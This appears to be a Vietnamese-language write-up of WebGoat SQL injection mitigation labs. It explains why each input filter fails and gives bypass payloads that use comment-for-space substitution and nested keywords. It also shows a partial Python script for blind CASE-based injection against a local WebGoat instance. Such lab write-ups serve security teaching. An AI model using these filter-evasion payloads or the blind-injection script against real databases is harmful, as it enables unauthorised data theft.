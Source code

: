 ```java
    attackResult = failed(this).output("Something went wrong").build();
  }
```

## SQL Injection (mitigation)

## Lab 9

### Nguyên nhân lỗi

- Lập trình viên chỉ đơn giản là validate input, nếu có white space thì trả failed về cho phía Client

![img](/img/WebGoat/(A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%203.png)

### POC

- Có thể sử dụng `/**/` để thay thế cho white space
- Payload

```sql
'/**/SELECT/**/*/**/FROM/**/user_system_data;/**/--
```

## Lab 10

### Nguyên nhân lỗi

- Vẫn sử dụng filter `white space` và kết hợp thêm filter đi 2 từ `SELECT` và `FROM`

![img](/img/WebGoat/(A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%204.png)

- Tuy nhiên, phần filter `SELECT` và `FROM` chỉ đơn giản là thay thế một lần và thay bằng một chuỗi rỗng `“”` → Nếu truyền `SSELECTELECT` thì khi filter thì nó sẽ trở thành SELECT, tương tự với `FROM` → Vẫn bị tấn công SQL Injection
- Về phần filter white space thì nó giống như Lab 9

### POC

- Sử dụng payload bên dưới để bypass

```sql
'/**/SESELECTLECT/**/*/**/FRFROMOM/**/user_system_data;/**/--
```

## Lab 12

- Sử dụng script python sau

```python
import requests  
  
index = 0  

headers = {  
    'Cookie': 'JSESSIONID=1JeQYvZuQvFhvbBcInM3sY6E0dKFHFK9m0Hg7RkA'  
}  

while True:  
    payload = '(CASE WHEN (SELECT ip FROM servers WHERE hostname=\'webgoat-prd\') LIKE \'{}.%\' THEN id ELSE hostname END)'.format(index)  

    r = requests.get('http://127.0.0.1:8080/WebGoat/SqlInjectionMitigations/servers?column=' + payload, headers=headers)  
```